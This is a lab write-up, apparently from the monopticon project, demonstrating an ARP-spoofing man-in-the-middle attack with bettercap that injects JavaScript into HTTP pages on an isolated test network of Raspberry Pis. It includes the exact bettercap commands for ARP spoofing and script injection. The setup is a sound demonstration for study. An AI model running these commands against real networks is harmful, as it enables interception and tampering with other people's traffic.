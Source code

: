 Introduction
------------

The goal of this expirement is to demonstrate how `bettercap` can inject
javascript into http streams when performing a Man-in-The-Middle and how its
possibile to visually confirm the attack is working with `monopticon`.

The video posted to [Youtube](https://www.youtube.com/watch?v=nixfg6opr_M) describes the expirement well.
The injected javascript that changes the page is available [here](https://github.com/nskelsey/monopticon/master/src/expirements/arp-spoof/script.js).

Expiremental Setup
------------------
Inside of an isolated unmanaged network, an attacker performing an ARP spoofing
attack, man in the middles http requests to a website running on a device in the
local network.

- 1 Netgear Max GS724 24 port switch
- 2 Raspberry Pi 3 running Raspbian-Stretch v4.14
- 1 Lenovo T480 running Monopticon v0.2.0 and Bettercap v2.22
- 3 RJ45 0.5m cables

### Network Design

```
[ pi C ] [ pi B ] [ lenovo ]
   \        |         /
    \       |        /
     \      |       /
      \     |      /
    [ netgear switch ]
```


### Normal ARP Mappings
The addresses are shown below in the diagram if the network was properly configured.

```
10.0.0.1 00:50:b6:b7:2b:eb # Attacker
10.0.0.2 b8:27:eb:71:b2:3e # Bruno
10.0.0.3 b8:27:eb:71:0f:5d # Cocco
```

### Man in the Middle Machine

```zsh
> ip address add dev enp0s31f6 10.0.0.1/24

> sudo su
> /home/synnick/go/bin/bettercap -iface enp0s31f6 -eval 'net.recon on; http.proxy on; arp.spoof on; ticker on;'
```


### Manipulated ARP Tables

ARP Table of Bruno
```
10.0.0.3 00:50:b6:b7:2b:eb # Attacker
```

ARP Table of Cocco
```
10.0.0.2 00:50:b6:b7:2b:eb # Attacker
```


### Attack Results

As shown the once the Lenovo machine starts broadcasting IP addresses

![what it looks like](https://nskelsey.com/res/local-mitm.gif)

Appendix
--------
## Initial Setup

### Cocco
```zsh
> sudo apt install vim tmux nginx
# changed hostname
# enabled ssh
> enable sshd w/ password
> sudo vim /etc/dhcpdc.conf
# static 10.0.0.3
> wget -r https://soapbox.nskelsey.com --convert-links
> systemctl enable nginx
> cp -fr soapbox.nskelsey.com/* /var/www/html/
> arp -s 10.0.0.2 00:50:b6:b7:2b:eb
```

### Bruno
```zsh
> sudo apt install vim tmux
> enable sshd w/ password
# idem w/o nginx
> arp -s 10.0.0.3 00:50:b6:b7:2b:eb
```

### Attacker

During the attack execute:

```zsh
> cd /home/synnick/projects/monopticon/build
> ping -c5 10.0.0.2 &; ping -c5 10.0.0.3 &; ./bin/monopticon
> /home/synnick/go/bin/bettercap -eval 'net.recon on; set http.proxy.injectjs "/home/synnick/projects/monopticon/src/expirements/arp-spoof/script.js"; http.proxy on; arp.spoof on; ticker on;'
```
